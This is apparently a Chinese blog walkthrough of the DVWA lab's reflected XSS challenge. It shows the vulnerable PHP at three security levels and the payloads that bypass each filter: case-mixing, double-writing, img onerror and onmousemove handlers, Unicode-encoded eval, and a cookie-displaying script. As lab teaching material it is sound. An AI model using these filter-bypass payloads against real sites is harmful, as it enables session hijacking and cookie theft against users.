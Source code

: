 ```yaml
---
title:      "跨站脚本攻击（反射型）---dvwa"
description: "主要用来记录dvwa靶场 跨站脚本攻击（反射型）破解方式"
author:     "伍帆"
image: "/img/home-bg.jpg"
date: 2022-06-30
published: true
tags:
    - 靶场
    - dvwa
URL: "/2022/6/xss(reflected)/"
categories: [ "网安" ]
---
```


## 跨站脚本攻击XSS简介
>跨站脚本攻击XSS，全称Cross Site Scripting，是指攻击者在有漏洞的Web页面中注入恶意的代码脚本，当受害者访问该页面时，恶意代码会在其浏览器上执行。XSS漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的。

    用大白话来说，XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。

## 利用XSS漏洞的常见用途
>①盗取用户cookies
> 
>②会话劫持
> 
>③流量劫持 
> 
>④网页挂马 
> 
>⑤DDOS攻击
>
>⑥提升权限


## 反射型（Reflected）XSS
反射型XSS是一种`非持久性XSS`，也就是攻击相对于访问者而言是`一次性`的

具体表现就是恶意脚本通过URL的方式传递给了服务器，而服务器则只是不加处理的脚本“反射”回访者的浏览器而使访问者的浏览器执行响应的脚本。


## Low 级别破解
> 查看源码
 ```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```
>没有过滤机制，只是检查下是否为空,这样就存在很明显的XSS漏洞了

输入`<script>alert(1)</script>` 可以看到会出来一个弹窗,这个就是反射型XSS的攻击，服务器并未执行这个脚本，只是因为服务器存在漏洞，使得脚本反射给了浏览器执行，通常会将恶意脚本放在URL中让用户进行执行。

![直接输入](/img/xss(reflected)/1-1.png)

`<script>alert(document.cookie)</script>` 可以把浏览器的cookie给反射出来
用于劫持流量,实现恶意跳转:`<script>document.location.href="http://www.baidu.com"</script>` 访问此链接,所访问的网站就会跳转到百度的首页

## Medium 级别破解
> 查看源码
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
>只是对`<script>`进行了过滤

我们可以用`<Script>`大小写来绕过弹个窗:`<Script>alert(1)</Script>`'
![直接输入](/img/xss(reflected)/2-1.png)
也可以通过双写来绕过`<scr<script>ipt>alert(1)</script>`
![直接输入](/img/xss(reflected)/2-2.png)

## High 级别破解
> 查看源码
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
>代码上的变化，利用正则表达式把`<script>`彻底堵死了
>但并不是只有script标签才可以插入代码，还可以通过其他方式来绕过。

#### 利用`<img>`标签绕过
    <img>标签有个功能特性，当指定图片不存在时，执行onerror后面的代码

输入`<img src='1' onerror='alert(1)'>`

![直接输入](/img/xss(reflected)/3-1.png)


#### 利用`<onmousemove>`标签绕过
    <onmousemove>标签可以监控鼠标的移动，移动时执行代码
输入`<a onmousemove='alert(1)'>`
![直接输入](/img/xss(reflected)/3-2.png)

上面两种方式，都可以绕过<sctrip>标签被正则控制的情况，如果服务器对代码中的关键字（比如alert）进行过滤的话，我们可以尝试将关键字进行编码后再插入。
不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval()来实现，eval()会将编码过的语句解码后再执行。

例如alert经过Unicode编码后就是`\u0061\u006c\u0065\u0072\u0074`

我们结合上面`<image>`标签运行下`<img src='1' onerror='eval(\u0061\u006c\u0065\u0072\u0074(1))'>`，弹窗成功
![直接输入](/img/xss(reflected)/3-3.png)





